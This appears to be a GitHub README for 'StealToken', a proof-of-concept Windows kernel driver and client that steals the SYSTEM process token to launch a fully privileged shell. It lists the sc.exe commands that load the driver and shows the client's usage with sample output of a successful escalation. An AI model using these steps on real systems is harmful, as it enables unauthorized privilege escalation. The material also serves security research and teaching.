

# StealToken

PoCs to performa token stealing from kernelmode.

## Installation

```
PS C:\> sc.exe create StealToken type= kernel binpath= C:\Dev\StealTokenDrv_x64.sys
PS C:\> sc.exe start StealToken
```

## Client Program Usage

Client program performs token stealing and executes a specified command.

```
PS C:\Dev> .\StealTokenClient.exe -h

StealTokenClient - Client for StealTokenDrv.

Usage: StealTokenClient.exe [Options]

        -h, --help    : Displays this help message.
        -p, --pid     : Specifies a target PID in decimal format. Use with -s flag, or -e and -H flag.
        -c, --command : Specifies command to execute. Default is "cmd.exe".

[!] -p option is required.
```

To use this client program, specifies target PID with `-p` option.
Command to execute can be specified with `-c` option.
If you do not specify any command, this PoC try to execute `cmd.exe` as a full privileged process:

```
PS C:\Dev> .\StealTokenClient.exe -p 4 -c powershell

[>] Sending a query to \??\StealToken.
[+] Got a handle to \??\StealToken (Handle = 0x2E8)
[+] Token stealing from PID 4 to 5880 is successful.
[>] Trying to create new process.
[+] New process is executed successfully.
    [*] Process ID : 240
    [*] Thread ID  : 664
[*] Done.
```

